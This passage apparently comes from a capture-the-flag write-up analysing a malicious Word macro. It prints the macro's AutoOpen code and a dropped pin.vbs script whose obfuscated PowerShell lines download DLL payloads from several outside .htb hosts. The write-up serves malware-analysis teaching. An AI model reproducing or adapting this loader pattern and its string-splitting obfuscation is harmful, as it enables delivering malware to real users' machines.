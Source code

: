 ```bash
    MsgBox ("Unfortunately you are not eligable for free coin!")
    End

End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |AutoOpen            |Runs when the Word document is opened        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Print #             |May write to a file (if combined with Open)  |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|StrReverse          |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
+----------+--------------------+---------------------------------------------+
```

After cleaning up the macro, removing the command execution part and replacing the output file path, we get the following:

```vb
Sub AutoOpen()
    Dim QQ1 As Object
    Set QQ1 = ActiveDocument.Shapes(1)
    Dim QQ2 As Object
    Set QQ2 = ActiveDocument.Shapes(2)
    FILE = "C:\Users\user\Desktop\pin.vbs"
    WW = QQ1.AlternativeText + QQ2.AlternativeText
    MyFile = FreeFile
    Open FILE For Output As #MyFile
    	Print #MyFile, WW
    Close #MyFile
End Sub
```

It reads the `AlternativeText` of two shapes in the document and writes it to `pin.vbs`. Let's run it on some Windows and analyze `pin.vbs`

### `pin.vbs`

`pin.vbs` contains the following code:

```vb
Dim WAITPLZ, WS, k, kl
WAITPLZ = DateAdd(Chr(115), 4, Now())
Do Until (Now() > WAITPLZ)
Loop

LL1 = "$Nano='JOOEX'.replace('JOO','I');sal OY $Nano;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://priyacareers.htb/u9hDQN9Yy7g/pt.html'',''C:\ProgramData\www1.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL2 = "$Nanoz='JOOEX'.replace('JOO','I');sal OY $Nanoz;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://perfectdemos.htb/Gv1iNAuMKZ/jv.html'',''C:\ProgramData\www2.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL3 = "$Nanox='JOOEX'.replace('JOO','I');sal OY $Nanox;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://bussiness-z.htb/ze8pCNTIkrIS/wp.html'',''C:\ProgramData\www3.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL4 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''http://cablingpoint.htb/ByH5NDoE3kQA/vm.html'',''C:\ProgramData\www4.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
LL5 = "$Nanoc='JOOEX'.replace('JOO','I');sal OY $Nanoc;$aa='(New-Ob'; $qq='ject Ne'; $ww='t.WebCli'; $ee='ent).Downl'; $rr='oadFile'; $bb='(''https://bonus.corporatebusinessmachines.htb/1Y0qVNce/tz.html'',''C:\ProgramData\www5.dll'')';$FOOX =($aa,$qq,$ww,$ee,$rr,$bb,$cc -Join ''); OY $FOOX|OY;"
```